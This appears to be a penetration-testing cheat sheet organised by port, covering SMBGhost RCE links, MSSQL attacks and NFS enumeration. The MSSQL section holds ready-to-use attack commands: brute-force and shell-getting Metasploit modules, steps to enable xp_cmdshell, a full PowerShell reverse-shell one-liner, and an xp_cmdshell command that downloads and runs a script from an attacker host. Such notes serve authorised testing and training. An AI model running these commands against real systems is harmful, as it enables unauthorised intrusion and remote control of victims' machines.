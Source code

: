 [Chain SMBLeed and SMBGhost to get RCE](https://pentest-tools.com/blog/smbleedingghost-exploit)    
[SMBBleedingGhost Python Script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)    

### TCP Port 1433: MSSQL 
[MSSQL Injection Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)    
Scanning: 
    
    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>      
Metasploit Modules:     

    auxiliary/scanner/mssql/mssql_login   #brute force login      
    auxiliary/admin/mssql/mssql_enum      #enum info   
    exploit/windows/mssql/mssql_payload   #get shell using creds    
To connect:   

    sqsh -S 10.10.10.10 -U user -P password    
    /usr/share/doc/python3-impacket/examples/mssqlclient.py   #use impacket script to connect    
    /usr/share/doc/python3-impacket/examples/mssqlclient.py HOST/username:password@10.10.10.10 -windows-auth  #log onto a Windows box  
    
Running shell commands using xp_cmdshell (reference article [here](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)):      
Needs to be enabled and executable for your to use it.    

    enable_xp_cmdshell  #enable if using mssqlclient.py    
    SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';  #check if enabled    
    sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;    #configure and enable xp_cmdshell      
    xp_cmdshell 'whoami';    
    
Get a reverse shell using xp_cmdshell (host rev.ps1 file on attack box webserver):    

    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()       

    EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.10.10:8000/rev.ps1") | powershell -noprofile'   #exec PowerShell script   

### TCP Port 2049: NFS	
[Pentesting NFS](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)  
[No root squash](http://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html)     
nmap scripts     

    nfs-ls #List NFS exports and check permissions      
    nfs-showmount #Like showmount -e    
    nfs-statfs #disk statistics and info   
    showmount -e 127.0.0.1
    mkdir /mnt/share   
    sudo mount -t nfs -o v2 127.0.0.1/share /mnt/share -o nolock 
	